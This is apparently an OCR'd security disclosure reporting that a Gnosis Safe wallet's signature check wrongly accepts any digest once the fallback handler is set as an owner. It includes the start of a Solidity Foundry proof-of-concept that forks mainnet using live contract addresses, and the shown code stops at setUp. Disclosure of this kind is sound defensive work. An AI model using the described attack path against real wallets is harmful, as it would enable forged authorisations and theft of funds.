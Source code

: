 ### Title: Wallet signature verification will break

### Brief / Summary
Attacker will be able to steal a user's signature without user's consent. Hence verifying a message / digest like it was really signed by a Safe user /victim. 
This is very dangerous given that it doesnt matter what the digest is, **it verifies** it.
This **Critical state** shouldnt be reachable by the Smart contract. Unfortunately it can.
However, an action is required by an owner for this potential **Critical state** to be reached for attack to be possible.

### Action required by User
The above is achieved if user sets address(FallbackHandler) as one of owners ie in `mapping(address => address) internal owners;`

### Versions Bug is viable
All versions 

### Details
Pls see POC. Code is well explained and simplified.

### POC
For test(Fuzz test) in POC, the following was demonstrated:
1. Initial state where contract signature veification system is still intact / NOT vulnerable. Hence returns false on all fuzz runs.
2. State change by user leading to Vulnerable state of smart contract.
3. At this vulerable state, Safe returns true (wrongly) for all fuzz runs on its signature verification. CRITICAL!!!

**POC**
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {GnosisSafe} from "../src/Codeslaw/contracts/GnosisSafe.sol";
import {IGnosisSafeProxyFactory} from "./interfaces/IGnosisSafeProxyFactory.sol";
import {ISafeSetup} from "./interfaces/ISafeSetup.sol";
// consider importing direct 4rm guthub
import {SignatureChecker} from "lib/openzeppelin-contracts/contracts/utils/cryptography/SignatureChecker.sol"; 
import {IGnosisSafe, Enum} from "./interfaces/IGnosisSafe.sol";



contract GnosisSafeSignature is Test {
    using SignatureChecker for address;

    //Mainnet state
    string MAINNET_RPC_URL = "https://mainnet.infura.io/v3/####";
    //Live mainnet Contract / addresses
    address constant COMPATIBILITY_FALLBACK_HANDLER = 0x017062a1dE2FE6b99BE3d9d37841FeD19F573804;
    address constant SAFE_SINGLETON = 0xfb1bffC9d739B8D520DaF37dF666da4C687191EA;
    IGnosisSafeProxyFactory constant SAFE_PROXY_FACTORY =
        IGnosisSafeProxyFactory(0xC22834581EbC8527d974F8a1c97E1bEA4EF910BC);

    //Safe Owner variables
    address EOAOwner;
    uint EOAPrivateKey;
    IGnosisSafe safeV_1_3_0;
   

    function setUp() public {
```